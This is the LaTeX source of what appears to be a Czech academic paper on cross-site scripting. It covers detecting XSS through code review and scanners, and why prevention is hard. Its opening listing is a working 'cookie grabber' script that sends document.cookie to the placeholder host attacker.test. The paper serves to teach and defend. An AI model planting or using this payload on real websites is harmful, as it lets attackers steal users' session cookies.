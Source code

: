 \documentclass[11pt, conference, a4paper]{IEEEtran}
\begin{document}
\begin{lstlisting}[
  caption=Cookie grabber,
  label=lst1:cg,]
<SCRIPT type="text/javascript">
var address = 'http://attacker.test?cakemonster=' + escape(document.cookie);
fetch(address);
</SCRIPT>
\end{lstlisting}




\section{Jak detekovat XSS zranitelnosti}
XSS zranitelnosti mohou být poměrně náročné na detekci a~odstranění z již existující webové aplikace. Nejlepším způsobem bývá provedení plné revize zdrojových kódů aplikace. Nejdůležitější při revizi je zaměřit se na místa, na kterých se vkládají uživatelský vstup nebo data z HTTP dotazů do HTML kódu webové stránky. Je nutné dávat si pozor na veškeré HTML tagy, které mohou být použity pro spouštění JavaScript kódu, a~ne jen na \texttt{<script>} tag.

K odhalení XSS zranitelností je také možno použít některé užitečné nástroje, jako jsou například Nessus a~Nikto. Pokud je zranitelná nějaká část aplikace, je velmi pravděpodobné, že problém může být i na jiných místech.



\section{Předcházení útoků XSS}
XSS je komplexní problém, který trápí vývojáře už nějakou dobu a~rozhodně v brzké době jen tak nezmizí. Neexistuje hromadné řešení, které by mohlo být jednoduše aplikovatelné pro většinu webových aplikací.

Problémem je oddělit od sebe požadovanou funkčnost webové aplikace od škodlivé činnosti. Prohlížeč sám o~sobě není bezpečný. Byl vytvořen k provádění HTTP dotazů a~následné zobrazování výsledků, což mimo jiné zahrnuje i schopnost spouštět kódy napsané v jazyce JavaScript. JavaScript je standardním jazykem webových vývojářů, kteří jej používají všemi možnými způsoby, ať už dobrými či špatnými, aby dosáhli požadované funkcionality. Prohlížeč tedy nemůže jen tak vyhodnotit, zda-li kód provádí něco nekalého a~nežádoucího. I~činnosti, jako například procházení cookies a~čtení ze systémové schránky (clipboard), jsou mnohdy volány validními programy a~taková funkcionalita nemůže být jednoduše zakázána.

Ze všech problémů však není možné vinit prohlížeč. Většině zranitelností by šlo předejít poměrně jednoduše. Základem je, aby vývojáři začali vytvářet bezpečné stránky, což se aktuálně často neděje. Útočníci mohou jednoduše využít chyb vývojářů k vlastnímu prospěchu. Proto je nutné vzdělávat vývojáře v metodách, jak zabezpečit svoje aplikace.~\cite{Grossman2007}
\end{document}
